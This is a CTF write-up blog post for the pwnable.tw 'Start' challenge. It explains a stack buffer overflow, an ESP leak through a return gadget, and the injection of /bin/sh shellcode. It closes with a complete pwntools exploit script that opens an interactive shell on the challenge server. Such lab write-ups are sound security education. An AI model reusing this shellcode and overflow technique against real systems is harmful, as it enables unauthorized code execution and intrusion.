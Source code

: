 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

>Start \[100 pts]
Just a start.
>
>nc chall.pwnable.tw 10000



First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file (I only use it for open IDA correctly). Now we should open disassembler like IDA Pro.

![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

We have two funcion: `_start` and `_exit`.
As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

_**`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).**_

The program lets you type 60 bytes, but it only accepts 20 bytes. Therefore, you can see maybe it has buffer overflow here.

First payload I use buffer overflow to make it returns to ROP gadget (0x08048087).

{: .box-note}
**Note:** Payload 1: "aaaaaaaaaaaaaaaaaaaa\x87\x80\x04\x08"

And then it will print out esp address in stack. Having that address, I can put the shellcode into that.
When comes the `retn;` instruction, ESP is pointing to address has 0x08048087, so next EIP is 0x08048087.



\[About shellcode] You can find shellcode at [here](http://shell-storm.org/shellcode/). For me, I use [this](http://shell-storm.org/shellcode/files/shellcode-752.php).


{: .box-note}
**Note:** Payload 2: 'A' * 20 + p32(esp_add + 20) + shellcode

If you are wondering why in payload (maybe only me, so sad) `esp_add + 20`, it's because that where shellcode is. Why is 20? The program will do this instruction: `add esp 14h`.

Source code for pwn: Run it with python.
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  esp_add = u32(esp_add[0:4])

  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)

  conn.interactive()
  conn.close()
{% endhighlight %}




